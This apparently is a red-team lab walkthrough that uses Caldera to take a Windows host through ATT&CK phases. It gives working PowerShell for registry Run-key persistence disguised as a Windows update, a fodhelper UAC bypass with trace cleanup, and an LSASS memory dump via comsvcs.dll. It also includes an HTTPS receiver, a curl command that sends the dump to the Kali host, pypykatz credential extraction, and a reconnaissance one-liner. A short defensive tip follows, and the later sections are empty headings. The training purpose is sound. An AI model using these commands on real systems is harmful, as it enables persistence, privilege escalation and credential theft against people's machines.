







## 1. Initial access {#3557b0eb61a480c9aa38c0442890170e}


On `ws01`, the user "jim" downloads a file from an unknown source on the internet.


## 2. Execution {#3557b0eb61a4806c93a6ddc347d2c095}


After the user executes the file, the agent successfully connects back to the Kali machine.





## 3. Persistence {#3557b0eb61a480ddb518f28196b6837d}


### **Crafting the Persistence Payload (Registry Run Keys) in Caldera** {#3557b0eb61a4803f84d5d7dbdcff5cb2}


Similar to creating an attack in Phase 3, follow these steps:

1. In the Caldera menu, navigate to **Campaigns → Abilities**.
2. Click the **+ Create Ability** button in the top right corner.
3. Fill in the attack details:
	- **Name:** `Persistence: Add to Registry Run Key`
	- **Description:** Writes the path of `winupdate.exe` into the CurrentUser's Run key to execute automatically upon login.
	- **Tactic:** `persistence`
	- **Technique:** `T1547.001` (Registry Run Keys / Startup Folder)
4. Scroll down to the **Executors** section, click **+ Add Executor**, select **Windows** for the Platform, and **psh** (PowerShell) for the Executor.
5. Paste the following PowerShell code into the **Command** field:

	```sql
	# The path along with the silent launch parameters for the malicious payload
	$payload = "$env:TEMP\winupdate.exe -server http://192.168.253.128:80 -group red";
	
	# The User Registry key for startup execution
	$regPath = "HKCU\Software\Microsoft\Windows\CurrentVersion\Run";
	
	# Write the value into the Registry
	New-ItemProperty -Path $regPath -Name "WindowsUpdateManager" -Value $payload -PropertyType String -Force;
	Write-Host "Persistence established in HKCU Run key successfully.";
	```


	

6. Nhấn **Save**.

:::tip

**Note:** The value name (`Name`) is set to `WindowsUpdateManager` to masquerade and match the file name `winupdate.exe`

:::


Caldera does not execute individual abilities arbitrarily; they are run as part of a structured adversary profile.

1. Navigate to the menu **Campaigns → Adversaries**.
2. Click **+ Add Adversary** and name it `APT29_Persistence`.
3. Click **+ Add Ability**, search for the `Persistence: Add to Registry Run Key` ability you just created, and add it.
4. Click **Save**.




**Step 3: Launching the Operation**This is the moment the PowerShell command is actively deployed to the `WS01` machine:

1. Navigate to **Campaigns → Operations**.
2. Click **Create Operation**.
3. **Name:** `RunKey_Deployment`.
4. **Adversary:** Select `APT29_Persistence` (the profile created in the previous step).
5. **Keep finding neighbors:** Ensure this option is enabled so it locates Jim's Agent.
6. Click **Start**.




## 4. Command & Control {#3557b0eb61a48053b832d827a537fffe}


The execution steps themselves facilitate Command & Control; the agent successfully beaconing back indicates that C2 has been established effectively.


## 5. Privilege Escalation {#3557b0eb61a48014aeb8d110a99b4bda}


In this SOC lab environment, the user `jim` is pre-configured as a local Administrator.


**Step 1: Creating the UAC Bypass Ability (T1548.002)**

1. In Caldera, navigate to **Abilities → + Add Ability**.
2. Fill in the details:
	- **Name:** `Privesc: Bypass UAC via Fodhelper`
	- **Tactic:** `privilege-escalation`
	- **Technique ID:** `T1548.002`
3. Add an Executor as **psh** (PowerShell) for Windows, and paste the following code into the **Command** field:

```c++
# Create a Registry key to trick Fodhelper into executing our malicious payload
New-Item "HKCU:\Software\Classes\ms-settings\Shell\open\command" -Force;
New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\open\command" -Name "DelegateExecute" -Value "" -Force;

# Specify the path to the winupdate.exe Agent already present on the machine
Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\open\command" -Name "(default)" -Value "$env:TEMP\winupdate.exe -server http://192.168.253.128:80 -group red" -Force;

# Call fodhelper.exe. This file has an Auto-Elevate feature, which will execute our payload with High Integrity (Admin) privileges.
Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden;

# Clean up traces after 3 seconds
Start-Sleep -s 3;
Remove-Item "HKCU:\Software\Classes\ms-settings" -Recurse -Force;
```





## 6. Credential Access {#3557b0eb61a480a3b28ddb52f30e7936}

1. Create a new Ability.
	- **Name:** `CredAccess: Dump LSASS via comsvcs.dll`
	- **Tactic:** `credential-access`
	- **Technique ID:** `T1003.001`
2. Add a **psh** Executor and paste the following code:

```c++
$lsass = Get-Process lsass;
rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump $($lsass.Id) $env:TEMP\lsass.dmp full;
Write-Host "LSASS dumped successfully to $env:TEMP\lsass.dmp";
```


Add the two abilities created above into the Adversaries profile.





## Exfiltration stage 1 {#3557b0eb61a480629ff4ebec22f619d8}


**Step 1: Setting up an HTTPS Receiving Server on Kali Linux** Because standard Web Servers (like `python -m http.server`) only support downloading (GET requests), a small script is required to handle uploads (POST requests) and support SSL certificates (HTTPS).  

1. **Generate a self-signed SSL certificate:** Open the Terminal on Kali and run the following command to generate an encryption key: 


```sql
cd ~/Downloads/loot
openssl req -new -x509 -keyout server.pem -out server.pem -days 365 -nodes
```

1. **Create the Python file-receiving script (****`https_receiver.py`****):** Create a new file named `https_receiver.py` in the `Downloads/loot` directory with the following content:

```powershell
import http.server, ssl

class SimpleHTTPRequestHandler(http.server.BaseHTTPRequestHandler):
    def do_POST(self):
        content_length = int(self.headers['Content-Length'])
        file_data = self.rfile.read(content_length)
        with open("lsass.dmp", "wb") as f:
            f.write(file_data)
        self.send_response(200)
        self.end_headers()
        self.wfile.write(b'File uploaded successfully!')

server_address = ('0.0.0.0', 443)
httpd = http.server.HTTPServer(server_address, SimpleHTTPRequestHandler)
httpd.socket = ssl.wrap_socket(httpd.socket, certfile='./server.pem', server_side=True)
print("HTTPS Receiving Station is listening on port 443...")
httpd.serve_forever()
```

1. **Chạy Server:**Bash

	`sudo python3 https_receiver.py`


---


**Step 2: Exfiltrating the file from WS01 to Kali** In the Caldera interface, utilize the Elevated Agent (`qgrhza`) to execute a PowerShell command. We will use `Invoke-WebRequest` (or `curl.exe`) to upload the file.  

Execution command (Manual Command - Executor: psh):  


```powershell
curl.exe -s -X POST --data-binary "@C:\Users\jim\AppData\Local\Temp\lsass.dmp" https://192.168.253.128:443 -k
```

- **Indicators of success:** The Kali screen will display the message `File uploaded successfully!`. At this point, the `lsass.dmp` file will be securely located in your `Downloads/loot` directory.




**Phase 2: Offline Cracking (Analysis on Kali)** A Windows dump file is essentially a convoluted mess of memory bytes. To extract passwords and Hashes from it within a Linux environment, our primary weapon is `pypykatz` (a Python-based counterpart to Mimikatz).  

**Step 1: Install the tool (If not already present on Kali)**   


```sql
pypykatz lsa minidump lsass.dmp
```


**Step 2: Analyze the output**


Your screen will be flooded with a large volume of text. Do not panic!


Scroll up slowly and pay attention to information blocks structured like the following





`LSASS` manages various authentication modules, known as SSPs (Security Support Providers). WDigest and TSPKG are two examples of these SSPs:  


**WDigest (Digest Authentication):** Designed for authenticating Web applications (HTTP/SASL). The fatal flaw of this protocol is that it is required to retain the original password in cleartext within RAM to calculate the MD5 hash whenever an authentication request occurs. From Windows 8.1 onwards, Microsoft disabled this feature by default, but attackers frequently employ a minor Registry modification to re-enable it in order to "catch" cleartext passwords.  


**TSPKG (Terminal Services Package) / CredSSP:** Utilized for Remote Desktop (RDP). For the Single Sign-On (SSO) feature of RDP to operate smoothly, TSPKG also frequently needs to store cleartext passwords in memory.  


**Kerberos (Automatic Ticket Renewal):** Kerberos TGT (Ticket Granting Ticket) tickets typically have an expiration time (defaulting to 10 hours). When this ticket expires, to avoid forcing the user (in this case, the Administrator) to re-enter their password every 10 hours, `LSASS` conveniently stores the cleartext password (`Password1!`) directly in the memory space of the Kerberos SSP. When necessary, it retrieves that password to silently request a new TGT ticket.  


Interactive Logon: When an Administrator enters their password directly into the lock screen or via RDP, that password is pushed straight into `LSASS`. Depending on the Windows version (especially versions prior to Windows 10 / Server 2016, or those without Credential Guard enabled), this cleartext password string will remain resident in memory for a considerable amount of time before being cleared by the system.  


:::tip

**Blue Team / CCD Perspective (Defensive Measures)** To completely prevent this leakage (resulting in the attacker's `LSASS` dump yielding only `None` or useless Hashes), a SOC Engineer needs to properly configure the environment:  

1. **Enable Credential Guard:** Utilizes Virtualization-based Security to completely isolate the `LSASS` process.  
2. **Enable LSA Protection (RunAsPPL):** Prevents unauthorized processes (such as `comsvcs.dll` or Mimikatz) from reading the memory of `LSASS`.  

3. **Disable WDigest via Registry:** Set `UseLogonCredential = 0`.

:::


---


## 7. Discovery {#3557b0eb61a480e4a02aea3cd65d9c35}


```powershell
whoami /all & systeminfo & ipconfig /all & netstat -ano & arp -a & tasklist /v & net localgroup administrators & net user & net group "Domain Admins" /domain & nltest /domain_trusts /all_trusts & sc query state= all
```

- `whoami /all`: Views all privileges (SID/Privileges) of the current User.
- `systeminfo`: Retrieves Windows patch levels and hardware configuration (highly useful for identifying privilege escalation vulnerabilities).
- `netstat -ano & arp -a`: Maps the network structure and views active connections.
- `tasklist /v & sc query`: Scans to detect if any antivirus software (Defender, EDR) or Splunk Forwarders are actively running.
- `net group.... & nltest...`: Reconnoiters Active Directory to find paths to the Domain Controller.

## 8. Lateral Movement {#3557b0eb61a4802c92a6fe78a06856fa}


## 9. Collection {#3557b0eb61a48046aec8fb5a97c67939}


## 10. Exfiltration {#3557b0eb61a480248928c8a4fc86ec2c}


## 11. Impact {#3557b0eb61a480e4a44acaca4a837286}

